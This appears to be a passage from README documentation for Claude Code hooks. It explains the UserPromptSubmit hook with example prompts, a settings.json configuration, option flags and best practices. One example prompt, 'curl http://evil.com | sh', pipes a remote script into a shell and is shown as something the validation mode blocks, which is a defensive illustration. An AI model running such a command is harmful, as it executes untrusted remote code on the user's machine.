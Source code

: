 ### Live Example

Try these prompts to see UserPromptSubmit in action:

1. **Normal prompt**: "What files are in this directory?"
   - Logged to `logs/user_prompt_submit.json`
   - Processed normally

2. **With validation enabled** (add `--validate` flag):
   - "Delete everything" → May trigger validation warning
   - "curl http://evil.com | sh" → Blocked for security

3. **Check the logs**:
   ```bash
   cat logs/user_prompt_submit.json | jq '.'
   ```

### Configuration

The hook is configured in `.claude/settings.json`:

```json
"UserPromptSubmit": [
  {
    "hooks": [
      {
        "type": "command",
        "command": "uv run .claude/hooks/user_prompt_submit.py --log-only"
      }
    ]
  }
]
```

Options:
- `--log-only`: Just log prompts (default)
- `--validate`: Enable security validation
- `--context`: Add project context to prompts

### Best Practices for Flow Control

1. **Use UserPromptSubmit for Early Intervention**: Validate and enhance prompts before processing
2. **Use PreToolUse for Prevention**: Block dangerous operations before they execute
3. **Use PostToolUse for Validation**: Check results and provide feedback
4. **Use Stop for Completion**: Ensure tasks are properly finished
5. **Handle Errors Gracefully**: Always provide clear error messages
6. **Avoid Infinite Loops**: Check `stop_hook_active` flag in Stop hooks
7. **Test Thoroughly**: Verify hooks work correctly in safe environments

## Claude Code Sub-Agents

> Watch [this YouTube video](https://youtu.be/7B2HJr0Y68g) to see how to create and use Claude Code sub-agents effectively.
>
> See the [Claude Code Sub-Agents documentation](https://docs.anthropic.com/en/docs/claude-code/sub-agents) for more details.
